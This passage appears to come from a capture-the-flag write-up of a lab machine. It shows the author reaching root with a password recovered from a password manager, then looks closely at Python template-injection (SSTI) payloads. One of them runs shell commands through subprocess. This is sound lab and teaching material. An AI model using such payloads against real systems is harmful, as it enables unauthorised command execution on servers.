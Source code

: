 ![image-20210908205052345](https://0xdfimages.gitlab.io/img/image-20210908205052345.png)

On clicking next, I’m into the account:

![image-20210908205124837](https://0xdfimages.gitlab.io/img/image-20210908205124837.png)

The root password is there. Opening the item, selecting edit, and then
clicking on the eye, it shows the password:

![image-20210908205308180](https://0xdfimages.gitlab.io/img/image-20210908205308180.png)

### su

With this password I can becoming root with `su`:

    
    
    eddie@bolt:~$ su -
    Password: 
    root@bolt:~#
    

And read the flag:

    
    
    root@bolt:~# cat root.txt
    47062921************************
    

## Beyond Root

### Python SSTI Deep Dive

In [this video](https://www.youtube.com/watch?v=7o1J8vHdlYc), I’ll go for a
deep dive into three different SSTI Python payloads and look at how they work:

### Trickier SSTI Payload

When I first solved, I started working with one of the SSTI payloads that took
some calculation to figure out:

    
    
    {{''.__class__.mro()[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate()[0].strip()}}
    

It returns a 500 error when I try to click the confirm link. I’ll remove a
bunch of it to just get the list of subclasses:

    
    
    {{ ''.__class__.__mro__[1].__subclasses__() }}
    

Submitting that returns a long list in the email:

![image-20210908163747213](https://0xdfimages.gitlab.io/img/image-20210908163747213.png)

I’ll drop that into a file and view it with newlines replacing commas:

